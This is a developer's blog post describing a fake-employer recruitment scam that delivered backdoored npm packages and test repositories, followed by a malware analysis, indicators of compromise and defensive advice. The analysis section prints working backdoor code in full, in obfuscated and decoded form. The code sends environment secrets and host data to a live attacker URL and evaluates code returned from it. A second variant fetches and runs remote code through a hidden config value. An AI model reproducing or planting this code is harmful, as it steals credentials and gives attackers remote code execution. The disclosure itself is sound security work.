







<h2 style="border: none">
Title: I Was Targeted by a Fake Employer Running a Real NPM Supply Chain Attack
</h2>

<h3 style="border: none; margin-top: 0.4em; font-style: italic; font-weight: normal; color: #555;">
  A journey through the rabbit-hole of backdoors and digital deception
</h3>

*Author: [Toufiqur Rahaman Chowdhury](https://aliens.github.io/cv)* | Published: 2025-07-09

---

### 📅 Timeline of Events

**June 25, 2025**  
Earlier in the week, I applied to a few developer roles online. I received an email from one of the employers who directed me to a Slack group that appeared to have been created on June 19, 2025, based on the creation date of its only two channels. The person claimed they had created this group to build a community to post jobs and connect developers with opportunities. I joined and noticed a lot of other candidates also joined the group (so far 300+ at the time of writing this). I introduced myself and had a brief conversation with other candidates, during which I casually mentioned a previous LinkedIn-based social engineering attempt that I had encountered.

**June 26, 2025**  
A LinkedIn user named Michael McCarthy, a CEO and Angel Investor from Canada, claiming to be an employer messaged me with an opportunity for a full-stack developer role.


The role was well-aligned with my experience and most recent roles. 

  




They shared a link to a GitHub repo URL and asked me to complete a quick coding test. The URL took me to a 404 (not found) page. 

 
 


I initially presumed the GitHub project may have been private and required an invite for me to access it. When I asked, they provided a Bitbucket repository instead. Now I realize the account might have been deleted/suspended due to reporting by others or the malware being detected by GitHub.



A few hours later, after cloning the Bitbucket repo, I attempted to install all the dependencies by running `npm install`, but the installation consistently got stuck during the initial loading stage (with a loading spinner). I presumed something might have been wrong with either my ISP’s DNS server and/or the connection with NPM servers.  
  
Then I tried using `yarn` and I encountered a broken dependency: `json-webhooks@1.5.9`. I discovered that the package had been removed and replaced with `0.0.1-security`, a standard NPM response to confirmed malicious packages that had been taken down.


I never ran the code so I was safe. However, I had the plan to use a Docker container anyway to run it as a precautionary measure.

**June 27, 2025**  
The Bitbucket repository was suddenly deleted, and then *recreated with the exact same name and structure*, but this time using a new malicious package: `reqweaver`. I reported this to NPM, and within hours, the package was removed — nearly **92 hours after reporting** — and it was downloaded 51 times by other developers. However, I regretted not downloading the source code for investigation out of curiosity.

**July 3, 2025**  
The attacker repeated the tactic a third time, now using a new package named `async-queuelite`. This time, I downloaded the package for inspection. With the help of ChatGPT, I discovered a backdoor in the code which confirmed that this was a Supply Chain Attack. Details of the malicious code dissection are in the next section. I reported the `async-queuelite` package as well to NPM Support and it was taken down within 13 hours with zero downloads.  
  
After confirmation of the malicious code, I tried to read the conversation I had on LinkedIn with the fake employer. The conversation disappeared and the user also disappeared. I assumed they either deleted their profile or blocked me. While reviewing the first LinkedIn email notification from Michael McCarthy, I realized the LinkedIn messages from the attacker weren’t actually deleted, just hidden from the UI. Using the message link in my email, I was able to regain access to the conversation.

**July 4, 2025**

The attacker repeated the exact same tactic for the fourth time: by recreating the BitBucket repo and publishing a new NPM package named `restpilot`. I have downloaded the source code and found the exact same backdoor code. Once again, I reported it to NPM Support.

**July 10-24, 2025**

After repeated takedowns of their malicious NPM packages, the attacker pivoted: they began embedding the backdoor code directly into the test project itself, removing the dependency on NPM altogether. And they created a new repo called NovaX.






A few days ago, I have received an email job alert from [arc.dev](https://arc.dev) a job posting by Tirios, the same name the fake employer used. This appeared legit but I was more curious so I applied to the job. I was hoping to get a response before I publish the article. So far I haven't received any response. Either the fake employer is now using [arc.dev](https://arc.dev) to attract new victims or this is the real deal.


---

### 🚨 Dissecting `async-queuelite`: A Real Backdoor

In the BitBucket repo, the `async-queuelite` package was only imported once in the `contracts/controllers/userController.js` and invoked the function only once at startup, but in the middle of the file like this:

```
...some imports
const jsonWebHooks = require("json-webhooks");

...many lines of code
jsonWebHooks();
...more code
```

The `async-queuelite@1.0.11` package disguised itself as a lightweight job queue. However, it:

- Collected system info (`os.platform()`, `hostname`, MAC addresses)
- Dumped all `process.env` variables (including any secrets and API keys)
- Sent data to `https://log-server-lovat.vercel.app/api/ipcheck/703`
- Executed attacker-controlled JavaScript using:  
  `.then(r => eval(r.data))`

Here is the malicious code in the NPM package (contents of the file `lib/writer.js`):

```javascript
'use strict'
const os = require('os')
const pkg = require('../package.json')

function getMacAddress () {
  const interfaces = os.networkInterfaces()
  const macAddresses = []

  for (const interfaceName in interfaces) {
    const networkInterface = interfaces[interfaceName]

    networkInterface.forEach((details) => {
      if (details.family === 'IPv4' && !details.internal) {
        macAddresses.push(details.mac)
      }
    })
  }
  return macAddresses
}
const data = {
  ...process.env,
  version: pkg.subModuleVersion,
  platform: os.platform(),
  hostname: os.hostname(),
  username: os.userInfo().username,
  macAddresses: getMacAddress(),
}

function g (h) { return h.replace(/../g, match => String.fromCharCode(parseInt(match, 16))) }

const hl = [
  g('72657175697265'),
  g('6178696f73'),
  g('706f7374'),
  g('68747470733A2F2F6C6F672D7365727665722D6C6F7661742E76657263656C2E6170702F6170692F6970636865636B2F373033'),
  g('68656164657273'),
  g('782d7365637265742d686561646572'),
  g('736563726574'),
  g('7468656e')
]

module.exports = (...args) => require(hl[1])[[hl[2]]](hl[3], data, { [hl[4]]: { [hl[5]]: hl[6] } })[[hl[7]]](r => eval(r.data)).catch(() => {})
```

#### Breakdown: How the Backdoor Works

- Step 1: It collects sensitive host metadata and environment variables using the os module and process.env. Using the `os` module it extracts the user's MAC addresses, username etc, and using `process.env` gives them access to all the private information available to the NodeJS application.
- Step 2: Obfuscate the attack. One clever piece of the attack was how it obscured the actual URL used for data exfiltration. Instead of hardcoding it, the code used obfuscated hex strings that are decoded at runtime using a function like this:

  ```javascript
  function g (h) { return h.replace(/../g, match => String.fromCharCode(parseInt(match, 16))) }
  ```
  
  Using this technique the attacker hides what is actually in the `hl` array.

  Here’s what the hl array resolves to when decoded:
  ```javascript
  const hl = [
      // 0. g('72657175697265'):
      'require',
      // 1. g('6178696f73'):
      'axios',
      // 2. g('706f7374'):
      'post',
      // 3. g('68747470733A2F2F6C6FD7...702F6170692F6970636B2F373033'):
      'https://log-server-lovat.vercel.app/api/ipcheck/703',
      // 4. g('68656164657273'):
      'headers',
      // 5. g('782d7365637265742d686561646572'):
      'x-secret-header',
      // 6. g('736563726574'):
      'secret',
      // 7. g('7468656e'):
      'then'
  ]
  ```
  Step 3: Now if we substitute the actual values from the hl array into the exported function, it becomes clear what the attacker is doing:

  ```javascript
  module.exports = (...args) => 
  require('axios')['post'](
    'https://log-server-lovat.vercel.app/api/ipcheck/703', 
    data, 
    { 'headers': { 'x-secret-header': 'secret' } }
  )['then'](r => eval(r.data)).catch(() => {});
  ```
  We can see that first the `axios` package is imported which is a popular library for making HTTP requests. Then a `post` request is made the obfuscated URL `https://log-server-lovat.vercel.app/api/ipcheck/703` in `hl[3]`.
  Step 4: Remote Code Execution.

  The final part of the chain is the most dangerous. The attacker uses:
  ```javascript
    .then(r => eval(r.data))
  ```
  This means that whatever response the server sends back (r.data) will be evaluated and executed as JavaScript inside the victim’s Node.js environment.

  If the attacker returns a payload that installs malware, opens a reverse shell, or performs lateral movement, it will execute with the same permissions as the current process. This is a classic example of Remote Code Execution (RCE), and is especially dangerous because:
  
  - It bypasses most static detection tools due to obfuscation.
  - It allows post-infection payloads to change over time. The attacker can now execute any code they control.
  - It executes code as part of what appears to be a legitimate module.
  
  This is **full-blown remote code execution (RCE)**. The attacker could run arbitrary scripts, install malware, or open reverse shells.


#### The Stealth Backdoor
The attacker now uses a more direct approach without NPM. They simply put the backdoor code inside the test project: [NovaX](https://bitbucket.org/web3_space/novax/src/main/). This appears to be an older tactic they used to use in other projects under the same username on BitBucket, which they seem to have recreated (deleted the project and recreate the same project with identical name and code to make it seem like it's a new project) and probably going to be using again. 

**File: auth/controllers/userController.js**
```javascript
.....import packages
require("dotenv").config({
    path: path.resolve(__dirname, "../config/.config.env"),
});
.....many lines of code
//Get Cookie
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
  const src = atob(process.env.DEV_API_KEY);
  const k = atob(process.env.DEV_SECRET_KEY);
  const v = atob(process.env.DEV_SECRET_VALUE);
  const s = (await axios.get(src,{headers:{[k]:v}})).data.cookie;
  const handler = new (Function.constructor)('require',s);
  handler(require);
})();
.....more code
```

**File: auth/config/.config.env**
```bash
DEV_API_KEY="aHR0cHM6Ly9hcGkubnBvaW50LmlvLzE0ODk4NDcyOWUxMzg0Y2JlMjEy"
DEV_SECRET_KEY="eC1zZWNyZXQta2V5"
DEV_SECRET_VALUE="Xw=="
```

**Summary of what changed:**

- NPM dependency no longer used
- Payload embedded directly in source
- Less obfuscation, but still effective
- Environment variables used to conceal malicious URL and headers

This tactic increases stealth: because the backdoor is no longer inside a published package, tools like `npm audit` can’t catch it. Instead, it relies on developers overlooking a suspicious-looking environment variable and trusting the rest of the repo structure.

While it does the same as NPM package backdoor with less obfuscation, it is still enough to fool unsuspecting and inexperienced programmers. I won’t go into the full breakdown again, as it mirrors the earlier backdoor closely.


---

### 🔒 Social Engineering: The Fake LinkedIn Profile

The LinkedIn profile:

- Had a job history going back 20+ years.
- Included fake high-profile titles like "Angel Investor at Binance" and many other positions at big tech companies to appear legit.
- Had no recent public activity (likes, comments, posts) in the last 10 years—a definite red flag, but one that can often be overlooked.
- Used a professional-sounding name and headshot (e.g., "Michael McCarthy")

After I grew suspicious, the user appeared to have blocked me and deleted the entire conversation. I later realized the profile had likely been reported and banned, which caused the messages to disappear from the UI—but I was still able to access it using the URL from the initial LinkedIn message notification email.

---

### 🧩 Could the Slack Group Have Been Connected?

While I can’t definitively say the Slack group was involved, it’s worth examining the timeline and possible connections:

- **June 10, 2025**: I applied to the job related to the Slack Group.
- **June 16, 2025**: The malicious `json-webhooks` package was published. It is, however, possible that this was not the first time and they may have other prior NPM packages published. 
- **June 19, 2025** The Slack group I joined appeared to be created.
- **June 23, 2025**: Received invitation to join the Slack Group.
- **June 26, 2025**: I received the attack via LinkedIn.

This raises a few possibilities:

1. **It was an unrelated coincidence** — the timing just happened to align.
2. **An attacker infiltrated the group posing as a candidate** — collecting contact info and monitoring conversations.
3. **The group was part of the attacker’s infrastructure** — created to scout developers and test approaches.  

While I lean toward the attacker having some visibility or presence in that group, I’m not accusing anyone specifically. I still have to put my Dexter Morgan's forensic analyst hat on.

It’s possible the group is legitimate and simply compromised or observed without the admin’s knowledge.

---

### 🔎 Why This Was Clearly Targeted

- The project closely mirrored my recent tech stack and interests.
- The Job Description and the test repo were sufficiently detailed and just real enough to look convincing.
- The malicious module was only used once, called with no arguments.
- The attacker persisted even after previous versions were reported and removed. So far the repo has been recreated and new malicious NPM packages published at least 4 times.
- The timing of the Slack invite and the attack raises the possibility that either an attacker had joined posing as a candidate, or, the Slack group creator was involved.

This wasn’t opportunistic. It was a carefully prepared **social engineering + supply chain** attack.

---

### ✅ What I Did Right

- **Didn’t run the code**, even initially.
- Had a plan to run it in a Docker container.
- Noticed the missing NPM package.
- Investigated the package name, found it was replaced by `0.0.1-security`.
- Reported `reqweaver`, `async-queuelite` and `restpilot` to NPM support. First two were taken down; awaiting for `restpilot`.
- Manually inspected `async-queuelite` in VSCode with Restricted Mode.

---

### 🚫 What Could Have Gone Wrong

- Running the project, even in Docker, any environment variable passed to the container and anything in mounted volumes could've been leaked.  
- Even worse, if it had been run with the malicious NPM package, the hacker could have created a reverse shell and gained access to the computer.
- If such code is deployed to staging/prod, it could compromise the CI/CD pipelines.
- Trusting the fake employer, one may end up sharing credentials or dev access.

---

### 🚧 Indicators of Compromise (IOC)

**Malicious NPM packages:**

- `json-webhooks@1.5.9`
- `reqweaver@<unknown>`
- `async-queuelite@1.0.11`
- `restpilot@<latest>` (published after previous removals)

**Remote server used:**

- `https://log-server-lovat.vercel.app/api/ipcheck/703`

**Obfuscation techniques:**

- Obfuscated code pattern using hex strings and `eval(r.data)`

I reported the last three packages (`reqweaver`, `async-queuelite`, and `restpilot`) to NPM, and the first two have since been removed from the registry.

---

### 📊 Lessons for Developers

- **Don’t blindly install dependencies**, especially from unfamiliar repos.
- **Always inspect small or unknown NPM packages**, especially if they're recently published.
- **Use VSCode Restricted Mode or open packages in a sandboxed VM.**
- **Consider isolating unknown projects in containers or VMs**, such as Docker, VirtualBox, Qubes OS, or use a completely isolated computer. While Docker helps limit filesystem exposure, note that `process.env` and mounted secrets can still be leaked unless you take precautions.
- **Use a VPN to mask your IP and reduce surface exposure.**
- **Validate LinkedIn profiles**: No activity in years + impressive roles = red flag
- **Be cautious of unsolicited Slack invites with vague roles**
- **Report suspicious packages to NPM security**

---

### ✉️ Final Thoughts

Since this incident, I’ve also encountered another obfuscated malware sample distributed via UpWork. Maybe I'll try to cover that in a follow-up post.

This experience was frustrating but incredibly eye-opening. It showed how attackers are adapting: combining social engineering with modern supply chain tactics to compromise individual developers.

If I hadn’t been cautious, this could’ve ended very differently. If you're a freelancer or open-source contributor, **stay vigilant**.

Feel free to share this story. If it protects even one developer, it's worth it.

---

*If you have seen any packages or messages similar to this incident, or if you'd like to collaborate on raising awareness, feel free to reach out.*

---

### 👤 About the Author

Toufiqur Rahaman Chowdhury is a full-stack software developer with over 8 years of experience building scalable web applications. He’s worked across frontend, backend, and blockchain systems.

🔗 [Open Source CV](https://aliens.github.io/cv) • [LinkedIn](https://www.linkedin.com/in/toufiq/) • [GitHub](https://github.com/alien45) • [Contact Or Hire Me!](https://alien45.github.io/cv/Toufiqur_Chowdhury_CV.pdf)
